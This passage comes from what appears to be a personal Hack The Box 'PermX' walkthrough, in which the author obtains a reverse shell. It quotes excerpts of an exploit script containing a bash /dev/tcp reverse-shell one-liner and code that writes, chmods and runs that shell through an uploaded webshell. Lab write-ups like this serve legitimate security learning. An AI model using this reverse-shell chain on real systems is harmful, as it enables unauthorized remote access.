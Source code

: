 now time for the actual reverse shell:

![](/assets/img/htb_permx/Screenshot_from_2024-09-16_23-09-42.png)

I just kept the first two as default, then put in the info you input in your netcat info

now we have a reverse shell!
![](/assets/img/htb_permx/Screenshot_from_2024-09-16_23-59-35.png)

going through the exploit script, it seems to be using a classic bash one liner to establish the reverse shell:

``` python
 #cutting off quite a bit
 @staticmethod
    def urlencode_all_characters(string):
        return ''.join('%{0:0>2x}'.format(ord(char)) for char in string)

#cutting off even more

bash_revshell_content = f'#!/bin/bash\nbash -i >& /dev/tcp/{host}/{port} 0>&1'
# this is a bash script (see the #!/bin/bash) that is just using the tcp driectory to open up a connection to our machine
        self.send_webshell(webshell_filename)

        urlencoded_create_bash_revshell_command = self.urlencode_all_characters(f'echo -n "{bash_revshell_content}" > {bash_revshell_filename}') # all "urlencode" methods are there to make the cmds processable within a URL 
        urlencoded_grant_exec_permission_revshell_command = self.urlencode_all_characters(f'chmod +x {bash_revshell_filename}')
        urlencoded_execute_revshell_command = self.urlencode_all_characters(f'bash {bash_revshell_filename}') 

        commands = [urlencoded_create_bash_revshell_command, urlencoded_grant_exec_permission_revshell_command, urlencoded_execute_revshell_command]

#ending early for brevity
```
